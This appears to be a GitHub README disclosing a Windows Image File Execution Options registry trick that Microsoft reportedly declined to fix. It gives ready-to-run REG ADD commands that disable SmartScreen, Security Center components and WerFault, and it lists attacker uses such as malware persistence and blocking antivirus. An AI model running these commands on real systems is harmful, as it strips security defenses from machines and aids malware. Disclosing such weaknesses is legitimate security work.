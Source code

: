 # Block Smartscreen and Security Center for Windows
&emsp; On the evening of May 29 (2022), I made the necessary notifications to the "Microsoft Security Center" [ VULN-068278].
However, according to the reply received by e-mail on June 10, "We determined that an immediate fix will not be released for the reported behavior. It was recommended to hardened because the relevant vulnerability requires **Administrator authority**. We have closed this case" .
For this reason, I wanted to warn users by posting this vulnerability or weakness in my account on Github.


&emsp; If any executable file is added to ("HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\") the regedit path and a debugger flag is set, another program can be run before that program is run. 
If the program that is run first does not invoke the relevant program in any way, it can replace the relevant program.
This can prevent various important programs from running. 
This is valid for important processes of Windows.


&emsp; For example, if you want to block Smartscreen
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\smartscreen.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```


&emsp; For example, if you want to block Security Center (Windows Defender and other tools)
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\securityhealthhost.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\secHealthUI.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\werFault.exe" /v Debugger /d "cmd.exe /C >null: 2>null:"
```

<dl>
  <dt> The purposes of using this vulnerability can basically be listed as follows.
  <dd>
  <dd> 1) It can provide persistence for malware software.
  <dd> 2) Although it is different in function and structure, similar attacks that can be made by interfering with the system call table can also be made using this vulnerability.
  <dd> 3) Security measures such as Smartscreen, Windows Defender, etc. that come integrated with Windows can be blocked.
For example, although Windows Defender cannot be blocked directly, Windows Defender is prevented from running by preventing the components necessary for it to work.
In the example, Windows Security Center has been prevented from working, and related components have become inoperable.
  <dd> 4) In particular, third-party virus scanning and security software can be blocked.
Also, any other third-party software may be blocked from running.
  <dd> 5) Processes used for forensic purposes that are integrated with Windows can be blocked.
  <dd> 6) By blocking the components necessary for the operation of Windows, operations such as "sending error reports" and "receiving updates" can be rendered inoperable.
For example, by blocking the "calcs" command, access to certain folders and files can be prevented by preventing the user and Windows from accessing the access control list.
</dl>


Video and Screenshots of the Vulnerability
---
&emsp; A simple video has been posted on Youtube to demonstrate the vulnerability. 
It can be viewed at the link below.

&emsp; **[Youtube Link]** https://youtu.be/_rQrLeDaFSU


**[ScreenShot 1]**
![e3](https://user-images.githubusercontent.com/71177413/173035204-a42ff30d-6dd0-4dde-8c53-10384db37ed2.JPG)


**[ScreenShot 2]**
![e4](https://user-images.githubusercontent.com/71177413/173035010-04fef1aa-7eac-4891-8541-5bcd57d70390.png)


**[ScreenShot 3]**
![e6](https://user-images.githubusercontent.com/71177413/173035082-fd6e2075-7c98-4786-a50a-d35db152027a.png)


Exploiting the Vulnerability
---
&emsp; As an example, a script has been written to show how a malware can exploit this vulnerability.
The **"block.py"** script has been added to the files as an example in order to represent what we call the first stage in malware attacks





Additional information on malwares
---
&emsp; In order to evaluate the vulnerability, basic information about malware-type attacks is given.

**A) Ideal Malware Attacks**
&emsp;

![malware_1](https://user-images.githubusercontent.com/71177413/173053242-7229231b-fad8-4716-90ee-d8572d5c74a6.JPG)


**B) Types of Malware**
&emsp;

![malware_2_type](https://user-images.githubusercontent.com/71177413/173053253-a976a2ed-72cf-4579-b97f-0bb6d09a4093.png)
[jpg source: From the book "Linux İşletim Sisteminde Malware Analizi", Abdulkadir GÜNGÖR, ISBN:978-625-409-378-4]


**C) Final Stage**
&emsp;

![malware_3](https://user-images.githubusercontent.com/71177413/173053274-478c0e9f-67d0-4b93-b842-061c611fbde2.JPG)


Disclaimer
---
&emsp; Information and projects published by me on Github are entirely at the user's own risk.
I'm not responsible in any way for any kind of damage that is done to your computer / os / program as cause of this project.
Make sure to use virtual systems as a test environment!


Legal Warning
---
&emsp; Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
